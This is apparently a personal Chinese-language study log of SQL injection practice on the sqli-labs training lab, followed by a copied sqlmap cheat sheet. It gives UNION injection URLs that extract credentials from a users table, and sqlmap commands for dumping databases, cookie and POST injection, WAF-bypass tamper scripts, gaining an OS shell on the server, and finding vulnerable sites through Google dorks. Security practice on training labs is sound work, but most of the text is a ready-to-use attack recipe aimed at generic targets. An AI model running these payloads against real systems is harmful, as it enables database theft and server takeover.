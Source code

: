 # 2019.07.12记录

[TOC]

## 使用sqli-lab练习sql注入

### Less-1注入

1. 注入查询数据库名：
http://192.168.202.148:85/Less-1/?id=861' union select 1,(select group_concat(schema_name) from information_schema.schemata),3 --+

2. 注入查询表名：
http://192.168.202.148:85/Less-1/?id=861' union select 1,(select group_concat(schema_name) from information_schema.schemata),(select group_concat(table_name) from information_schema.tables where table_schema='security')--+

3. 注入查询字段名：
http://192.168.202.148:85/Less-1/?id=861' union select 1,(select group_concat(schema_name) from information_schema.schemata),(select group_concat(column_name) from information_schema.columns where table_name='users')--+

4. 注入查询用户名：
http://192.168.202.148:85/Less-1/?id=861' union select 1,(select group_concat(schema_name) from information_schema.schemata),(select group_concat(username) from security.users)--+

5. 注入查询密码：
http://192.168.202.148:85/Less-1/?id=861' union select 1,(select group_concat(schema_name) from information_schema.schemata),(select group_concat(password) from security.users)--+

## 使用SqlMap注入：

### 安装sqlmap：
1. 使用git获取sqlmap：[SqlMap](https://github.com/sqlmapproject/sqlmap):
2. 使用python获取sqlmap：pip install sqlmap

### sqlmap注入：
1. 查数据库：
Python sqlmap.py -u "http://10.10.10.1/sqli-labs-master/Less-1/?id=1"  --dbs
Python sqlmap.py -u "http://10.10.10.1/sqli-labs-master/Less-1/?id=1" --current-db

2. 查表：
Python sqlmap.py -u "http://10.10.10.1/sqli-labs-master/Less-1/?id=1" -D security --tables

3. 查字段：
Python sqlmap.py -u "http://10.10.10.1/sqli-labs-master/Less-1/?id=1" -D security -T users --columns(-D dbname指定数据库名称、-T tablename：指定某数据表的名称、--columns：列出指定表上的所有列)。

4. 查数据：
Python sqlmap.py -u "http://10.10.10.1/sqli-labs-master/Less-1/?id=1" -D security -T users -C id,username,password --dump (-D dbname:指定数据库名称、-T tablename:指定某数据表名称、-C Cnmme:指定列名、--dump:导出列里面的字段)。

5. 查询所有：
Python sqlmap.py -u "http://10.10.10.1/sqli-labs-master/Less-1/?id=1" --dump-all


### [SQLMAP实战操作](http://www.secist.com/archives/3079.html)：
1. ACCESS数据库：
sqlmap.py -u “url” /*-u为常规扫描参数*/
sqlmap.py -u “url” –tables /*–tables拆数据库表*/
sqlmap.py -u “url” –columns -T “要拆的表名”/*列出指定表名*/
sqlmap.py -u “url” –dump -T “要拆的表名”-C “要拆的字段名” /*–dump为拆解字段名会保存在sqlmap/output目录下*/
2. MYSQL数据库：
sqlmap.py -u “url” /*扫描注入点*/
sqlmap.py -u “url” –dbs /*列出所有数据库*/
sqlmap.py -u “url” –current-db /*列出当前数据库*/
sqlmap.py -u “url” –current-user /*列出当前用户*/
sqlmap.py -u “url” –tables -D “当前数据库名” /*拆解当前数据库表*/
sqlmap.py -u “url” –columns -T “要拆得的表名” -D “当前数据库名” /*拆解指定表字段名*/
sqlmap.py -u “url” –dump -C “字段名” -T “表名” -D “当前数据库”
3. SQLSERVER数据库：
sqlmap.py -u “url” /*扫描注入点*/
sqlmap.py -u “url” –dbs /*列出所有数据库*/
sqlmap.py -u “url” –current-db /*列出当前数据库*/
sqlmap.py -u “url” –current-user /*列出当前用户*/
sqlmap.py -u “url” –tables -D “当前数据库名” /*拆解当前数据库表*/
sqlmap.py -u “url” –columns -T “要拆得的表名” -D “当前数据库名” /*拆解指定表字段名*/
sqlmap.py -u “url” –dump -C “字段名” -T “表名” -D “当前数据库”
SQLSERVER操作和MYSQL是一样的！！！常见的几种数据库！！！
4. COOKIE注入：
sqlmap.py -u “www.xxx.com/asp或者www.xxx.com/php”?–cookie “参数名如id=1” –level 2/*level为提升权限*/
什么数据库就按照上面的数据库加上cookie语句拆解就行了
5. POST注入：
抓包保存到SQLMAP目录下.txt的文件然后输入指令sqlmap.py -r xxx.txt /*xxx.txt为保存包文件的文件名”
sqlmap.py -u “url” –data “POST参数”
6. 执行shell命令：
sqlmap.py -u “url” –os-cmd=”net user” /*执行net user命令*/
sqlmap.py -u “url” –os-shell /*系统交互的shell*/
7. 注入HTTP请求 :
sqlmap.py -r xxx.txt –dbs /*xxx.txt内容为HTTP请求*/
8. 绕过WAF的tamper插件使用：
sqlmap.py -u “url” –tamper “xxx.py”
sqlmap.py -u “url” –tamper=”xxx.py”
关于tamper脚本详细说明在本博客中有，链接为：http://www.matsec.cn/?id=5
9. 将注入语句插入到指定位置：
sqlmap.py -u “url(www.xxx.com/id/1*.html)”?–dbs
有些网站是采用伪静态的页面使用SQLMAP的普通注入是不行的，所以SQLMAP提供了”*”参数将SQL语句插入指定位置，一般用于伪静态注入。
在使用HTTP注入时使用-r参数也可以直接在文本中添加*号
10. 延时注入：
sqlmap –dbs -u “url” –delay 0.5 /*延时0.5秒*/
sqlmap –dbs -u “url” –safe-freq /*请求2次*/
11. 使用谷歌语法搜索注入(Google hack)：
sqlmap.py -g “inurl:asp?id=1” /*””内为搜索语法，如：inurl,intitle,site,filetype等等


### 参考
1. [SQLMAP简单使用](https://jingyan.baidu.com/article/eae078276530621fec5485b9.html)
2. [SQL Map基础操作学习](https://www.jianshu.com/p/17509d0a1ba3)


